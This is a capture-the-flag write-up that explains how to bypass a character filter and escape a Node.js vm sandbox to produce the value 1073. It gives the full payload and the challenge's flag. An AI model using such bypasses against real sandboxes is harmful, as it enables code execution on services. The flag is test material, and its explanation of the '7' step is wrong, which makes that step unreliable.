




# Welcome to FPTU Ethical Hackers Kingdom


**Category:** Misc

---

## 1. Analyze

Here's the front page of the challenge.

For this challenge, It took a while for me to get to the source code.


Following the hint, we can see the source code.



These lines of code instantly caught my eyes:
```js
const secret = req.query.secret + '';
if (secret && secret.length < 190 && !/[^A-Za-z).(]/.test(secret)) {
try {
    const key = virtual_machine.runInNewContext(secret, {}, { timeout: 100 });
    if (key === 1073) {
    output = Buffer.from(process.env.FLAG).toString('base64');
    } else {
    output = 'https://i.imgur.com/OQFcXZD.jpg';
    }
} catch (e) {
    output = Buffer.from('https://youtu.be/HRwVb2xrNDw').toString('base64');
}
} else {
    output = Buffer.from('https://youtu.be/HRwVb2xrNDw').toString('base64');
}
```
Our goal is to inject javascript code which can bypass the filters and return a number `1073`

## 2. Payload crafting
The idea is to concatenate `"1", "0", "7", "3"`.

For `1`, we use `Number(true)`.

For `0`, we use `Number(false)`.

For `7`, we use `true.constructor.name.length` since the length of `"constructor"` is `7`.

For `3`, we use `(typeof(this)).big.name.length)` since the length of `"big"` is `3`.

Sum it all, we got the final payload.
```js
eval((typeof(this)).constructor(Number(true)).concat(Number(false)).concat(true.constructor.name.length).concat((typeof(this)).big.name.length))
```

Submit it and here's what we got the flag in `BASE64`: `RlBUVUhhY2tpbmd7YmFuX3F1YV9odSxiYW5fZGFfYmlfQW50b2luZV9uaG90X3Zhb19qc19qYWlsfQ==`

Decode it and get the Flag: `FPTUHacking{ban_qua_hu,ban_da_bi_Antoine_nhot_vao_js_jail}`